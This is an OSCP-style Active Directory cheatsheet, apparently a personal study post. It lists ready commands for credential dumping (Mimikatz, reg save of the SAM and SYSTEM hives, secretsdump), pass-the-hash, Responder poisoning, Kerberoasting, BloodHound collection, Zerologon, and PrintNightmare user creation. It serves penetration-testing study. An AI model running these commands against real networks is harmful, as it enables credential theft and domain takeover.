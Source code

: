```yaml
---
title: Active Directory
author: linatl
category: "OSCP"
date: "2021-03-14 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Basic Domain Enumeration Commands
```
> net user /domain
> net user some_admin /domain
> net group /domain
> net accounts

Powershell:
> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()

```


###### 389 LDAP query's
```
> ldapsearch -LLL -x -H ldap://10.10.10.10 -b '' -s base '(objectclass=*)'
> ldapsearch -LLL -x -H ldap://10.10.10.10 -b 'DC=DOMAIN,DC=LOCAL'
```


###### Mimikatz
```
> .\mimikatz.exe
Then:
> privilege::debug
> sekurlsa::logonpasswords
> sekurlsa::tickets
> kerberos::list /export
> sekurlsa::logonpasswords
> sekurlsa::pth /user:some_admin /domain:domain.com /ntlm:hAsHPaRt2 /run:PowerShell.exe
```

###### HiveNightmare
```
https://github.com/GossiTheDog/HiveNightmare

Works on all supported versions of Windows 10, where System Protection is enabled (should be enabled by default in most configurations).
Check for vuln by checking if the patch for CVE-2021–36934 is installed, and by checking if system protection is enabled (with rstrui.exe ?)
```

###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```

###### Responder
```
> responder -I eth0 -rdw
```

###### PowerView
```
> Import-Module .\PowerView.ps1
> Get-NetLoggedon -ComputerName computer1
> Get-NetSession -ComputerName dc01
```

###### Pass The Hash with CrackMapExec
```

```

###### Pass the Hash with PTH
```
> pth-winexe -U username%hAsHPaRt1:hAsHPaRt2 //10.10.10.10 cmd

```


###### Rubeus
```

```

###### Other Kerberos Commands
```
> klist

> python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt ticketname


AS-REP roasting
> impacket-GetNPUsers -format john -dc-ip 10.10.10.10 domain.local/username

```


###### Bloodhound
```
Bloodhound documentation:
https://bloodhound.readthedocs.io/en/latest/

Installation:
> sudo apt install bloodhound
> sudo pip3 install bloodhound

First, gather the data with an ingestor, either the bloodhound-python script from fox-it or SharpHound.Then import the json files in the neo4j database.
> (sudo) neo4j console
starts on localhost:7687

Example bloodhound-python:
> bloodhound-python -c All -u 'username' -p 'password' -gc "MACHINE.domain.local" -dc "MACHINE.domain.local" -d "domain.local" -ns 10.10.10.10

Example sharphound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
> import-module .\SharpHound.ps1                                                       PS > Invoke-Bloodhound -c All [-d domain.local]
```


###### Zerologon (probably going to break the domain...)
```
> python3 49871.py -do check -target NETBIOSNAME -ip 10.10.10.10
```

###### PrintNightmare
```
https://github.com/calebstewart/CVE-2021-1675/

Run with (in powershell):
> powershell -exec bypass -command "& { Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare; }"
> Invoke-Nightmare -NewUser "username" -NewPassword "password" -DriverName "PrintMe"
```

###### NoPac
```
https://github.com/cube0x0/noPac
```
